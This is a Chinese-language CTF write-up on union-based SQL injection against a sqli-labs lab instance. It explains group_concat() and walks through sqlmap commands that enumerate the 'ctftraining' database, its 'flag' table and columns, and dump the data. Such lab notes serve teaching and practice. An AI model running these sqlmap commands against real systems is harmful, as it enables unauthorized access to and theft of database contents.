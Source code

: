 **其他的不多说了，各个题型的 sqlmap 用法在下面都写了，有过滤的没写，还不会写脚本**

### 联合注入
重要函数

```sql
# 将查到的一个字段内的所有数据，合并为一个字符串输出
group_concat()
# 联合注入的时候我们要让前面的无法输出（前面的设为-1），这样后面的才能输出
```

**手注的话，在上面已经讲了**

**使用工具 sqlmap，以第一题为例**

**输入下面的东西，先爆库**

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732112171042-c685cd58-b659-43c8-a9a7-a077af1b4f6f.png)

第**一个问我们是否要跳过测试其他 payload，选是。**

**第二个看不懂，也选是**

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732112247647-d6d0c041-c3eb-43f4-ae5b-a54d9576b925.png)

**问我们是否要测试其他参数，选否**

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732112351197-d99fea57-d183-43d2-b516-201802c9ee8e.png)

**库名**

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732112398763-f110802b-de7b-42c6-9003-5bdeab80dbd8.png)

**爆表**

```sql
python sqlmap.py -u http://fb38469f-e856-4765-99c5-a785393f23ee.node5.buuoj.cn/Less-1/?id=1 -D ctftraining --tables
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732112621785-51019acd-566a-4a2d-904a-ab3c3d88b840.png)

**爆字段**

```sql
python sqlmap.py -u http://fb38469f-e856-4765-99c5-a785393f23ee.node5.buuoj.cn/Less-1/?id=1 -D ctftraining -T flag --columns
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732112688036-425f3ee2-72ed-4ac8-b2f8-5319c40d6573.png)

**爆数据**

```sql
python sqlmap.py -u http://fb38469f-e856-4765-99c5-a785393f23ee.node5.buuoj.cn/Less-1/?id=1 -D ctftraining -T flag -C flag -dump
```
